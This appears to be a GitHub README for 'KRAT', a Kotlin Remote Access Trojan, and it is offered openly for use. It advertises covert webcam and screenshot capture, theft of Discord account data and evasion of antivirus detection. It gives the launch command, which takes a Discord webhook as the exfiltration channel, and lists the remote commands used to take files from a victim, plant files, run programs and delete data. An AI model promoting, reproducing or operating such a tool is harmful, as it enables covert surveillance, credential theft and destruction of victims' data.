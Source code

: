 ### Current status: 🟢[Undetected](https://virustotal.com)

# KRAT

A RAT (Remote Access Trojan) written in Kotlin.

## Features
- Get periodicals screenshots
- Get real-time webcam
- Sends Discord account information
- On-demand actions
- Everything silently and undetectable by antivirus

## Usage
1. Download the latest release and put it on a server
2. Run the `.jar` file with your Discord webhook link as parameter

```sh
java -jar KRAT.jar <webhook-link>
```

## On-demand actions
- `!webcam`: take a webcam capture and send it
- `!screenshot`: take a screenshot and send it
- `!filtree`: sends the victim's file tree
- `!upload <link> <absolute-path>`: upload a file to the victim
- `!download <absolute-path>`: download a file from the victim
- `!run <file>`: execute a file on the victim's computer
- `!delete <absolute-path>`: delete a file from the victim's computer
- 

[//]: # (3. The program will connect to your Discord bot and ask for configuration)

## Stack
- [Kotlin](https://kotlinlang.org/)
- [Kord](https://kordlib.github.io/kord/)
- [webcam-capture](https://github.com/sarxos/webcam-capture)